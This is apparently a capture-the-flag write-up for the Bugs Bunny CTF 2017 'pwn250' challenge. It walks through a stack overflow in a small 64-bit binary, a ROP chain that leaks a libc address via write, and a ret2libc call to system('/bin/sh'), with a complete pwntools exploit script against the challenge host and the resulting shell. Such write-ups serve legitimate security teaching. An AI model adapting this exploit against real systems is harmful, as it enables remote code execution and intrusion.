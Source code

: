 ```yaml
---
title: pwn250 (pwnage 250)
category: bugs_bunny_ctf_2k17
author_member: muffinx
show_comments: false
---
```


Oh, you can still solve this too?
please try harder

task : nc 54.153.19.139 5255
libc : https://drive.google.com/file/d/0B5gmSy61RokzSFk1clNoWGRveWs/


Binary type:

```
pwn250: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b92b9ef9aa21452b83be93778ed175c6c37de92d, not stripped
```

Binary security measurements:

```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```


The code is pretty straight forward:
```c++

ssize_t here()
{
  char buf; // [sp+0h] [bp-80h]@1

  return read(0, &buf, 0x100uLL);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  here();
  write(1, "Hello, World\n", 0xDuLL);
  return 0;
}
```

We also got a libc.so from the challenge, so we'll do some ret2libc.
First we need to locate where the libc is loaded, so we can use it for ret2libc.

We use rop to leak the address of read in the .got.plt, we then subtract it with the
offset of read in the libc.so to get the loaded libc adress.

We'll do this by using the write function, here's an example how it is used by the application to
print "Hello, World":

```
.text:00000000004005AB                 mov     edx, 13         ; n
.text:00000000004005B0                 mov     esi, offset aHelloWorld ; "Hello, World\n"
.text:00000000004005B5                 mov     edi, 1          ; fd
.text:00000000004005BA                 call    _write
```

edx = holds number of bytes to write
esi = holds the address to read
edi = where to write the bytes to (file descriptor)

We can set these values by using this wonderful rop gadget:

```
0x000000000040056a : pop rdi ; pop rsi ; pop rdx ; ret
```

So we set:

rdx = 0x8 (read 8 bytes)
rsi = 0x0601020 (read got.plt)
rdi = 0x01 (stdout)

Now jumping to write, we have successfully leaked libc.
To pause the program and to make a second overflow, we jump back into the vulnerable function "here" @ 0x0400571.

After that, with the calculated libc base address, we can do a classical ret2libc.

```
0x0400633 # pop rdi ; ret
*address of /bin/sh*
*address of system*
```

Here's my exploit:

```python

#!/usr/bin/env python

from pwn import *

#libc = ELF('/lib/x86_64-linux-gnu/libc-2.19.so')
libc = ELF('./libc.so')

#r = process('./pwn250')
r = remote('54.153.19.139', 5255)

#gdb.attach(r, '''
#set follow-fork-mode child
#break *0x0400591
#continue
#continue
#''')

payload = 'A'*136
payload += p64(0x040056a) # pop rdi ; pop rsi ; pop rdx ; ret
payload += p64(0x01) # rdi = 1 (fd)
payload += p64(0x0601020) # rsi -> read got.plt
payload += p64(0x08) # rdx = 8 (number of byte)
payload += p64(0x0400430) # write
payload += p64(0x0400571) # here()

r.sendline(payload)


addr_unpacker = make_unpacker(64, endian='little', sign='unsigned')

leaked_read_addr = r.recv(8)
# rebase libc
libc.address = addr_unpacker(leaked_read_addr) - libc.symbols['read']

print 'leaked read at: ' + hex(libc.symbols['read'])
print 'leaked system at: ' + hex(libc.symbols['system'])
print 'leaked /bin/sh at: ' + hex(next(libc.search('/bin/sh\x00')))


payload2 = 'A'*136
payload2 += p64(0x0400633) # pop rdi ; ret
payload2 += p64(next(libc.search('/bin/sh\x00'))) # rdi -> /bin/sh
payload2 += p64(libc.symbols['system']) # system

r.sendline(payload2)
r.interactive()
```

Oh, we got a shell!

```
$ cat /home/pwn250/flag
Bugs_Bunny{Did_Ropgadget_help_pwner!_maybe_we_have_smart_guys_here!!}
```
